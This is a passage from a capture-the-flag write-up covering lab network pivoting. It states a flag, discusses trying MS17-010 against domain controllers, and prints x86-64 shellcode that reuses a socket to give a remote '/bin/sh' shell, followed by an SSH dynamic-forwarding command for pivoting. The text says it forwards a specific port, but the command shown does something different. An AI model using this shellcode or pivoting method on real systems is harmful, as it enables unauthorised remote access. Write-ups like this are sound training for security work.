 The flag is `GRIMM-STACK-OVERFLOWD`

## Secondary Control (300pts)

With the provided description ("The Administrator may CRY if you get further into their network") I was certain that the exploit gotta be the famous MS17-010 from WannaCry. From the nmap scan before and with a little bit of DNS enumeration, I figured out that there are 2 Domain Controllers on the network. The primary DC at `10.123.15.10` is a Windows Server 2016 machine, while the secondary DC at `10.123.15.20` is unknown. At this point, I have not obtained a shell on the lister machine yet and only tried to enumerate the network more and more from the gitlab-runner machine. However, the exploit did not work against the primary DC.

It took me quite a long time to decide to move on to obtaining a shell on the lister machine and this is one of the mistake that I've made. I should have done this earlier because later on, to progress, I needed to pivot through the lister machine. Using the same exploit from the previous level and modify the shellcode, I was able to obtain a shell through the existing connection with the binary. Here is the shellcode with descriptive comments:

```nasm
nop
nop
nop
; dup2(stdin, 4) since 4 is the client fd.
mov rax, 33
mov rdi, 4
xor rsi, rsi
syscall
; dup2(stdout, 4)
mov rax, 33
inc rsi
syscall
; dup2(stderr, 4)
mov rax, 33
inc rsi
syscall
; execve("/bin/sh", 0, 0). From the exploit, a "/bin/sh" string was placed at 0x601000
mov rax, 59
xor rdx, rdx
mov rsi, rdx
mov rdi, 0x601000
syscall
; After the syscall, stdin, stdout and stderr was redirected to our client fd and we are interacting with /bin/sh on the remote machine now
nop
nop
nop
```

I again used an SSH-tunnel to forward `10.123.15.53:12345` to `127.0.0.1:1234`

```
ssh -D 1337 -i grimmKey gitlab-runner@10.123.14.12
```
